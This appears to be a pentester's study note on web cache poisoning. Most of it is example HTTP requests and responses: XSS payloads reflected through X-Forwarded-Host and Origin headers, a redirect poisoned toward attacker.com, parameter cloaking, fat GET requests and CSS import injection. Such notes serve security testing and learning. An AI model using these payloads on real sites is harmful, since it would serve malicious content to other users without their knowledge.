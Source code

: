```yaml
---
layout: note
title: "Web Cache Poisoning"
category: Web
---
```


# Web cache poisoning

## Main idea
Web cache poisoning is the act of tricking the web cache to store malicious content that will in turn be served to other users. The three most common ways of poisoning web caches are **request smuggling**, **request splitting** and **poisoning using unkeyed inputs** (also known as practical web cache poisoning).

## Methodology

![Practical Web Cache Poisoning](https://portswigger.net/cms/images/ec/b8/0d97faa475af-article-methodology-full-landscape.svg "Practical Web Cache Poisoning")

![Web Cache Entanglement](https://portswigger.net/cms/images/f8/ba/1abc-article-methodology.png "Web cache entanglement")

## Testing guide

### Design flaws

#### Look after reflected headers in the response
```http
GET /en?region=uk HTTP/1.1
Host: innocent-website.com
X-Forwarded-Host: a."><script>alert(1)</script>"

HTTP/1.1 200 OK
Cache-Control: public
<meta property="og:image" content="https://a."><script>alert(1)</script>"/cms/social.png" />
```

#### Abuse redirects if the cache allows you
```http
GET /random HTTP/1.1
Host: innocent-site.com
X-Forwarded-Proto: http
X-Forwarded-Host: attacker.com

HTTP/1.1 301 moved permanently
Location: https://attacker.com/random
```

### Implementation flaws


#### Unkeyed port
```http
GET / HTTP/1.1
Host: vulnerable-website.com:1337

HTTP/1.1 302 Moved Permanently
Location: https://vulnerable-website.com:1337/en
Cache-Status: miss
```

#### Unkeyed query string
In such a case you could add a header based cache buster:
```http
Accept-Encoding: gzip, deflate, cachebuster
Accept: */*, text/cachebuster
Cookie: cachebuster=1
Origin: https://cachebuster.vulnerable-website.com
```
The server and the cache might not recognize the paths in the same way. Here are some aliases for app root:
> Apache: GET //
Nginx: GET /%2F
PHP: GET /index.php/xyz
.NET GET /(A(xyz)/

Might wanna consider that there might be just some unkeyed query parameters and not the whole string.

#### Cache parameter cloaking

##### Exploiting parameter parsing quirks
Check if the cache treats question marks (`?`) and ampersands (`&`) the same.
```http
GET /?example=123?excluded_param=bad-stuff-here HTTP/1.1
```

Check if the backend accepts other delimiters for parameters.
The Ruby on Rails framework, for example, interprets both ampersands (`&`) and semicolons (`;`) as delimiters.
```http
GET /?keyed_param=abc&unkeyed_param=123;keyed_param=bad-stuff-here HTTP/1.1
```

##### Exploiting the behavior of HTTP methods.  
In select cases, the **HTTP method may not be keyed**. This might allow you to poison the cache with a POST request containing a malicious payload in the body.
```http
POST /js/geolocate.js?callback=setCountryCookie HTTP/1.1
…
callback=arbitraryFunction

HTTP/1.1 200 OK
X-Cache-Key: /js/geolocate.js?callback=setCountryCookie
…
arbitraryFunction({"country" : "United Kingdom"})

GET /js/geolocate.js?callback=setCountryCookie HTTP/1.1

HTTP/1.1 200 OK
X-Cache-Key: /js/geolocate.js?callback=setCountryCookie
…
arbitraryFunction({"country" : "United Kingdom"})
```
A fat GET would be a **GET request with a body**. If such a behavior is allowed then **parameters might be parsed from request body** instead of URL on server-side and the cache would be poisoned with the response from a different parameter.  
```http
GET /js/geolocate.js?callback=setCountryCookie HTTP/1.1
…
callback=arbitraryFunction

HTTP/1.1 200 OK
X-Cache-Key: /js/geolocate.js?callback=setCountryCookie
…
arbitraryFunction({"country" : "United Kingdom"})
```

##### Exploiting dynamic content in resource imports
For example, consider a page that reflects the current query string in an import statement:
```http
GET /style.css?unkeyed_param=123);@import… HTTP/1.1

HTTP/1.1 200 OK
…
@import url(/site/home/index.part1.8a6715a2.css?excluded_param=123);@import…
```
You could exploit this behavior to inject malicious CSS that exfiltrates sensitive information from any pages that import /style.css.  
If the page importing the CSS file doesn't specify a doctype, you can maybe even exploit static CSS files. Given the right configuration, browsers will simply scour the document looking for CSS and then execute it. This means that you can occasionally poison static CSS files by triggering a server error that reflects the excluded query parameter:
```http
GET /style.css?excluded_param=alert(1)%0A{}*{color:red;} HTTP/1.1

HTTP/1.1 200 OK
Content-Type: text/html
…
This request was blocked due to…alert(1){}*{color:red;}
```

#### Normalized cache keys

For example, when you find reflected XSS in a parameter, it is often unexploitable in practice. This is because modern browsers typically URL-encode the necessary characters when sending the request, and the server doesn't decode them. The response that the intended victim receives will merely contain a harmless URL-encoded string.  
Some caching implementations normalize keyed input when adding it to the cache key. In this case, both of the following requests would have the same key:
```http
GET /example?param="><test> HTTP/1.1
GET /example?param=%22%3e%3ctest%3e HTTP/1.1
```

#### Cache key injection
You will sometimes discover a client-side vulnerability in a keyed header. This is also a classic "unexploitable" issue that can sometimes be exploited using cache poisoning.  
Keyed components are often bundled together in a string to create the cache key. If the cache doesn't implement proper escaping of the delimiters between the components, you can potentially exploit this behavior to craft two different requests that have the same cache key.  
```http
GET /path?param=123 HTTP/1.1
Origin: '-alert(1)-'__

HTTP/1.1 200 OK
X-Cache-Key: /path?param=123__Origin='-alert(1)-'__

<script>…'-alert(1)-'…</script>
```
If you then induce a victim user to visit the following URL, they would be served the poisoned response:
```http
GET /path?param=123__Origin='-alert(1)-'__ HTTP/1.1

HTTP/1.1 200 OK
X-Cache-Key: /path?param=123__Origin='-alert(1)-'__
X-Cache: hit

<script>…'-alert(1)-'…</script>
```

#### Internal cache poisoning

There will be a dark day when you will meet application level caches. May God be with you friend.  
Check for changed in reflected parameters with a dynamic cache buster added.

## Attack surface

- Reflected XSS doesn't require user interaction anymore
- Unexploitable XSS might become a exploitable

## Tools

- Burp extension - Param Miner

## Resources
[Portswigger](https://portswigger.net/web-security/web-cache-poisoning/)  
[Practical web cache poisoning](https://portswigger.net/research/practical-web-cache-poisoning)  
[Web cache entanglement](https://portswigger.net/research/web-cache-entanglement)

